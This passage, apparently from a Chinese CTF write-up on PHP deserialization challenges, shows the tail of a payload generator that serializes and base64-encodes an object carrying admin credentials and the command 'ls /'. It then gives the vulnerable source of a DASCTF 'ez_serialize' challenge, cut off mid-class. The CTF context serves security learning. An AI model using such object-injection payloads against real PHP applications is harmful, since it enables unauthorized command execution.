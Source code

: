 ```php
    public  $content;
    public function __construct()
    {   
        $this->register='admin';
        $this->username='admin';
        $this->password='admin';
        $this->file=new Open;
        $this->filename='';
        $this->content='ls /';
    }
}

class Open
{

}
    $demo=new Game;
    echo base64_encode(serialize($demo))."\n";
?>
```
## 0x02 MAR DASCTF

平台真是卡的要命，注入题一个都跑不动。

### ez_serialize
源码：
```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class A{
    public $class;
    public $para;
    public $check;
    public function __construct()
    {
        $this->class = "B";
        $this->para = "ctfer";
        echo new  $this->class ($this->para);
    }
    public function __wakeup()   
    {
        $this->check = new C;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('bad hacker~');
    }

}
class B{
    var $a;
    public function __construct($a)
    {
        $this->a = $a;
        echo ("hello ".$this->a);
    }
}
class C{

```